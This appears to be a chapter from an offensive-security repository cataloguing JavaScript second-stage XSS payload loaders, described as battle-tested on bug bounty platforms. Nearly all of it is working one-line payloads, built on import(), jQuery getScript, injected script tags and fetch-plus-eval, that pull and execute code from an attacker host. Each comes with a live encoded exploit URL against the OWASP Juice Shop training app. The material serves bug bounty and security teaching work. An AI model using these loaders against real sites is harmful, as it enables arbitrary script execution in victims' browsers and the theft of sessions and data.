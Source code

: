 # Second Stage JavaScript Payload Loaders

<p align="justify">This chapter documents JavaScript payloads used to load and execute second stage payloads.</p>

<p align="justify">Although a lot of amazing online resources exist on the topic of XSS, none that i am aware of cover second stage payload loaders in more detail.</p>

* **NOTE**: this is not an exhaustive list - further payload options and options for modifying the payload exist
    * all payloads listed here are proven to work and have been battle-tested on Bug Bounty platforms
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
            * if required, deal with Content Security Policy (CSP; not covered here)
    * list may be updated with additional payloads or different variants

## `import()` - round brackets; quote; `Access-Control-Allow-Origin` required

```
import('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## [jQuery; new] `$.getScript()` - round brackets; quote; dollar

```
$.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## [jQuery; old] `jQuery.getScript()` - round brackets; quote

```
jQuery.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

## `appendChild()` #1 - round brackets; quote; equal

```
with(document)body.appendChild(createElement('script')).src='//ATTACKER_WS/PATH/JS_PAYLOAD';
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27%3B%22%3E

## `appendChild()` #2 - round brackets; quote; equal; space

```
var js=document.createElement('script');js.type='text/javascript';js.src='//ATTACKER_WS/PATH/JS_PAYLOAD';document.body.appendChild(js);
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22var%20js%3Ddocument.createElement(%27script%27)%3Bjs.type%3D%27text/javascript%27%3Bjs.src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27%3Bdocument.body.appendChild(js)%3B%22%3E

## `fetch()` #1 - round brackets; right angle bracket; quote; equal; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(r=>r.text().then(t=>eval(t)));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(r%3D%3Er.text().then(t%3D%3Eeval(t)))%3B%22%3E

## `fetch()` #2 - round brackets; curly brackets; quote; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(function(r){return r.text().then(function(t){return eval(t);})});
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D)%3B%22%3E

## `fetch()` #3 - round brackets; curly brackets; quote; equal; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
async function g(f){o=await fetch(f);t=await o.text();eval(t);};g('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22async%20function%20g(f)%7Bo%3Dawait%20fetch(f);t%3Dawait%20o.text();eval(t);%7D;g(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E
